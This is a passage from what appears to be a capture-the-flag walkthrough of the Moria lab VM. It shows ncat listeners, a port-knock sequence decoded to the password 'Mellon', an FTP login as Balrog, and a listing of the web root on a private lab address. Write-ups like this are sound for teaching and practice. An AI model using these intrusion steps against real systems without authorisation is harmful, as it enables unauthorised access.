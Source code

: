 Interesting, but does it change something to open these ports? Will someone speak to us ?:  
```bash
for port in 77 101 108 111 110;do xterm -T "listening on port ${port}" -hold -e ncat -klvp ${port} &;done
```  
  
In Wireshark:  
![moria3]({{ site.url }}/public/images/moria/moria3.png)  
  
**RST** packets from Moria. Let's try to port knock with the same sequence:  
```bash
knock 192.168.1.38 77 101 108 108 111 110
```  
  
... Nothing when trying to knock **77 101 108 108 111 110**... hummm...  
```python
>>> import sys
>>> for port in (77,101,108,108,111,110):sys.stdout.write(chr(port));
... 
Mellon
```  
  
'What's the Elvish word for Friend?'  
<iframe width="560" height="315" src="https://www.youtube.com/embed/qnBcg9fsbWE" frameborder="0" allowfullscreen></iframe>  
  
With this password one of the gate will open:  
  
```bash
root@kali:/tmp# ftp 192.168.1.38
Connected to 192.168.1.38.
220 Welcome Balrog!
Name (192.168.1.38:root): Balrog
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```  

Thanks to directory traversal:  
  
```bash
ftp> cd /var/www/html
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0              23 Mar 12 20:38 QlVraKW4fbIkXau9zkAPNGzviT3UKntl
-r--------    1 48       48             85 Mar 12 19:55 index.php
-r--------    1 48       48         161595 Mar 11 23:12 moria.jpg
drwxr-xr-x    3 0        0              15 Mar 12 04:50 w
226 Directory send OK.
ftp>
```  

Looking at *http://192.168.1.38/QlVraKW4fbIkXau9zkAPNGzviT3UKntl/*:  
![moria5]({{ site.url }}/public/images/moria/moria5.png)  
  